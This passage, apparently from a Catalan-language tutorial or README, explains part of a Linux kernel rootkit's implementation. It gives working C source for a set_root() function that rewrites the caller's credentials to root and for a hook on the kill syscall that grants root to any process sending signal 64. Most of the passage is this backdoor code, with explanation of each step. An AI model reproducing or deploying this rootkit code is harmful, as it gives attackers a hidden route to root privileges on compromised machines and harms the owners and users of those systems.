 
## Implementació

L'implementació es basa en modificar la funció de crida a sistema kill per interceptar la crida amb un senyal específic (64 en aquest cas) i, si es detecta aquest senyal, canviar les credencials de l'usuari actual a les credencials d'administrador (root), permetent així l'escalada de privilegis.

1. Crearem una funció que modifiqui les credencials de l'usuari actual per les credencials d'administrador (root). Aquesta funció utilitza la structura **cred** per modificar les credencials de l'usuari. Aquesta estructura es troba a *include/linux/cred.h*. **prepare_creds()** crea una nova estructura de credencials i l'assigna a la variable root. Per representar l'usuari root necessitem editar els valors **uid,gid,egid,sgid,fsgid** al valors 0 que en sistemes linux es reserva per l'usuari **root**. Finalment, **commit_creds()** aplica les credencials a l'usuari actual.

    ```c
    void set_root(void)
    {
        struct cred *root;
        root = prepare_creds();
        if (root == NULL)
            return;
        root->uid.val = 
            root->gid.val = 0;
        root->euid.val = 
            root->egid.val = 0;
        root->suid.val = 
            root->sgid.val = 0;
        root->fsuid.val = 
            root->fsgid.val = 0;
        commit_creds(root);
    }
    ```

2. Un cop implementada la funció per esdevenir root, necessitem implementar un hook (rutina de tractament de la senyal 64). En aquest cas, el nostre hook interceptarà la crida a sistema kill i, si el senyal és 64, cridarà a la funció **set_root()** per esdevenir root. Per obtenir el nº de senyal utilitzarem la variable **si** de la structura **pt_regs**. Aquesta estructura conté informació sobre els registres del processador en el moment de la crida a sistema i ens permet obtenir informació com el nº de senyal, el PID, etc.

    ```c
    asmlinkage int hook_kill(
        const struct pt_regs *regs)
    {
        void set_root(void);
        int sig = regs->si;
        if (sig == 64)
        {
            printk(KERN_INFO "rootkit: giving root...\n");
            set_root();
            return 0;
        }
        return orig_kill(regs);
    }
    ```
